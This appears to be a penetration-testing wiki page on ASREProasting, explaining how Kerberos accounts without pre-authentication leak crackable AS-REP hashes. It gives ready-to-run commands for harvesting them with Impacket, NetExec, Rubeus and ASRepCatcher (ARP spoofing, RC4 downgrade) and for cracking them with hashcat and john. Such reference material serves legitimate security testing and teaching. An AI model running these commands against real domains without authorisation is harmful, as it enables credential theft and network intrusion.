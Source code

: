 ```yaml
---
authors: ShutdownRepo, Yaxxine7, mpgn
---
```


# ASREProast

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.

## Practice

> [!TIP]
> While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.


=== Windows

The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```powershell
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

:::




Depending on the output format used (`hashcat` or `john`), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try [cracking the hashes](../credentials/cracking.md).

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

### ASREProast MitM

Another way to conduct AS-REP roasting, without relying on Kerberos pre-authentication being disabled, would be to have a man-in-the-middle position on the network and catch AS-REPs. [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) (Python) can be used for that purpose. It also has the ability to force client workstations to use RC4 (weaker encryption type) by altering the Kerberos negotiation process. The tool natively uses ARP spoofing (which can be disabled if needed).

```bash
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASRepCatcher listen
```

## Resources

[https://blog.xpnsec.com/kerberos-attacks-part-2/](https://blog.xpnsec.com/kerberos-attacks-part-2/)

[https://blog.harmj0y.net/activedirectory/roasting-as-reps/](https://blog.harmj0y.net/activedirectory/roasting-as-reps/)

[https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx)

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)
